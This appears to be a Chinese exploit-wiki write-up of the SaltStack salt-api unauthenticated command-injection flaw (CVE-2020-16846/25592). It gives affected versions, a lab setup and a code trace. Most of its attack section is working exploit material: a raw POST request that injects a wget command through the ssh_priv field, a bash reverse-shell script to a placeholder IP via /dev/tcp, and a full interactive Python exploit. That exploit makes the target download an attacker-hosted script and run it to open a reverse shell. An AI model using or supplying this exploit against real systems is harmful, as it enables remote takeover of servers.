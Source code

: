 # SaltStack 未授权访问命令执行漏洞 CVE-2020-16846 25592

## 漏洞描述

2020年11月4日，SaltStack 官方发布了一则安全更新公告，其中CVE-2020-16846和CVE-2020-25592组合使用可在未授权的情况下通过salt-api接口执行任意命令。CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。salt-api虽不是默认开启配置，但绝大多数SaltStack用户会选择开启salt-api，故存在较高风险。

## 漏洞影响

```
SaltStack Version 3002
SaltStack Version 3001.1, 3001.2
SaltStack Version 3000.3, 3000.4
SaltStack Version 2019.2.5, 2019.2.6
SaltStack Version 2018.3.5
SaltStack Version 2017.7.4, 2017.7.8
SaltStack Version 2016.11.3, 2016.11.6,2016.11.10
SaltStack Version 2016.3.4, 2016.3.6,2016.3.8
SaltStack Version 2015.8.10, 2015.8.13
```

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/saltstack/CVE-2020-16846
docker-compose up -d
```

## 漏洞复现

salt-api REST接口默认使用cherrypy框架，从run接口的实现上可以看出通过client参数动态调用NetapiClient类中的方法。

文中指定代码位置采用以下约定 **FileLocation:Classname.method()**

**salt/netapi/init.py:NetapiClient.run()**



![image-20220209124853209](./images/202202091248323.png)



low参数为外部传入参数，salt.utils.args.format_call方法将参数赋值给**kwargs。**

当client参数为ssh时，动态调用**salt/netapi/init.py:NetapiClient.ssh()**, 该方法未采用任何鉴权。

**salt/netapi/init.py:NetapiClient.ssh()**



![image-20220209124914461](./images/202202091249520.png)



跟进，路径如下：

**salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()**

**salt/client/ssh/client.py:SSHClient._prep_ssh()**



![image-20220209124937489](./images/202202091249560.png)



该方法将kwargs外部可控参数更新值opts变量，该变量可以理解为SaltStack系统的环境变量，使用该变量初始化salt.client.ssh.SSH。

**salt/client/ssh/init.py:SSH.__init__()**

![image-20220209124952459](./images/202202091249617.png)

priv的值从opts变量中获取，并调用salt.client.ssh.shell.gen_key()方法。

**salt/client/ssh/shell.py:gen_key()**

![image-20220209125009848](./images/202202091250910.png)

POC请求包为

```shell
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```

![image-20220209125029894](./images/202202091250968.png)



反弹shell的方法

先写 bash文件，内容为反弹shell语句，使用wget下载到目标中

```bash
#!/bin/sh
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```

![image-20220209125047143](./images/202202091250221.png)

监听端口，使用 **/bin/bash** 运行文件 反弹shell

![image-20220209125102862](./images/202202091251968.png)

## 漏洞POC

- POC目录中 peiqi.sh文件 需要更改反弹ip,port,并上传到服务器让目标进行下载
- DNS有响应则代表可能有漏洞，便可以进行反弹shell

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: SaltStack Version < 2019.2.4 & < 3000.2                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> xxx.dnslog.cn                                     \033[0m')
    print('+  \033[36mFile_addr   >>> http://xxx.xxx.xxx/cmd.sh                         \033[0m')
    print('+  \033[36mFile_name   >>> cmd.sh                                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, dnslog):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget http://{}".format(dnslog)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget http://{} \033[0m".format(dnslog))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 请查看 Dnslog响应 \033[0m")
            while True:
                Chois = input("\033[35m是否反弹 Shell(Y/N) >>> \033[0m")
                if Chois == "Y" or Chois == "y":
                    File_addr = input("\033[35mFile_addr >>> \033[0m")
                    File_name = input("\033[35mFile_name >>> \033[0m")
                    POC_2(target_url, File_addr, File_name)
                else:
                    sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, File_addr, File_name):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|wget {}".format(File_addr)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 wget {} \033[0m".format(File_addr))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 成功下载{} \033[0m".format(File_addr))
            POC_3(target_url, File_name)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, File_name):
    vuln_url = target_url + "/run"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept-Encoding": "gzip, deflate",
        "DNT": "1",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "application/x-yaml",
        "Accept-Language": "en-US,en;q=0.5"
    }
    data = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=peiqi|/bin/bash {}".format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 正在执行 /bin/bash \033[0m".format(File_name))
        if "return" in response.text and response.status_code == 200:
            print("\033[32m[o] 命令执行完毕，请查看是否反弹Shell \033[0m".format(File_name))
            sys.exit(0)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[32m[o] 命令执行成功 \033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, dnslog)
```



![image-20220209125138180](./images/202202091251259.png)



![image-20220209125156134](./images/202202091251218.png)

## 参考文章

https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag